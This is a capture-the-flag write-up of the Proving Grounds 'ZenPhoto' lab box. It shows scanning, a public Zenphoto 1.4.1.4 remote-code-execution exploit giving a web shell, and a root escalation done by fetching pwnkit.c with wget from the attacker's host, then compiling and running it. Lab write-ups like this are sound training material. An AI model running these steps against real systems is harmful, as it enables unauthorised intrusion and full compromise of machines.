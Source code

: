 ```yaml
---
title: Proving Grounds - ZenPhoto
date: 2022-11-19
author: Marius
tags: [ctf, 'proving grounds', 'pg']
---
```


Intermediate OSCP like box found in Proving grounds. Lets go!

### Enumeration

```
└─$ rustscan -a 192.168.209.41 -- -sC -sV | tee nmap 

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 5.3p1 Debian 3ubuntu7 (Ubuntu Linux; protocol 2.0)
23/tcp   open  ipp     syn-ack CUPS 1.4
|_http-title: 403 Forbidden
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-server-header: CUPS/1.4
80/tcp   open  http    syn-ack Apache httpd 2.2.14 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.14 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
3306/tcp open  mysql   syn-ack MySQL (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

First of all I checked port 23 as according to NMAP scan it's running CUPS server which was interesting. But I did not find any foothold so moved to port 80.

Feroxbuster revealed a directory - **test**

```
└─$ feroxbuster --url http://192.168.209.41/ --no-recursion               

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.1
───────────────────────────┬──────────────────────
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        4l        5w       75c http://192.168.209.41/
200      GET        4l        5w       75c http://192.168.209.41/index
301      GET        9l       28w      315c http://192.168.209.41/test => http://192.168.209.41/test/
```

![alt text](/assets/img/zenphoto/1.png)

Inspector-gadgeting source code revealed that this is zenphoto 1.4.1.4

![alt text](/assets/img/zenphoto/2.png)


Doing a quick search I found an [exploit](https://www.exploit-db.com/exploits/18083) 

### Exploitation

Running previously mentioned exploit I got a shell and a local flag.

```
└─$ php 18083.php 192.168.209.41 /test/

+-----------------------------------------------------------+
| Zenphoto <= 1.4.1.4 Remote Code Execution Exploit by EgiX |
+-----------------------------------------------------------+

zenphoto-shell# whoami
www-data

zenphoto-shell# ls /home
local.txt
```

Getting stable shell.

![alt text](/assets/img/zenphoto/3.png)


### Privilege Escalation

Transferred **linpeas.sh** using SimpleHttpServer and Linux Exploit Suggested quite few exploits.

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,[ ubuntu=10.04{kernel:2.6.32-21-generic} ],ubuntu=16.04{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2010-3904] rds

   Details: http://www.securityfocus.com/archive/1/514379
   Exposure: highly probable
   Tags: debian=6.0{kernel:2.6.(31|32|34|35)-(1|trunk)-amd64},ubuntu=10.10|9.10,fedora=13{kernel:2.6.33.3-85.fc13.i686.PAE},[ ubuntu=10.04{kernel:2.6.32-(21|24)-generic} ]
   Download URL: http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},ubuntu=16.04|14.04|12.04
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

```

I have attempted Pwnkit exploit as I already had the script on my machine.

```
www-data@offsecsrv:/tmp$ wget 192.168.49.209/pwnkit.c 
wget 192.168.49.209/pwnkit.c
--2022-11-19 18:59:28--  http://192.168.49.209/pwnkit.c
Connecting to 192.168.49.209:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1267 (1.2K) [text/x-csrc]
Saving to: `pwnkit.c'

100%[======================================>] 1,267       --.-K/s   in 0.04s   

2022-11-19 18:59:28 (31.0 KB/s) - `pwnkit.c' saved [1267/1267]

www-data@offsecsrv:/tmp$ gcc pwnkit.c -o pwn
gcc pwnkit.c -o pwn
www-data@offsecsrv:/tmp$ chmod +x pwn
chmod +x pwn
www-data@offsecsrv:/tmp$ ./pwn
./pwn
# whoami
whoami
root
# cd /root
cd /root
# ls
ls
mysqlpass  proof.txt
```

And that's how I got the root.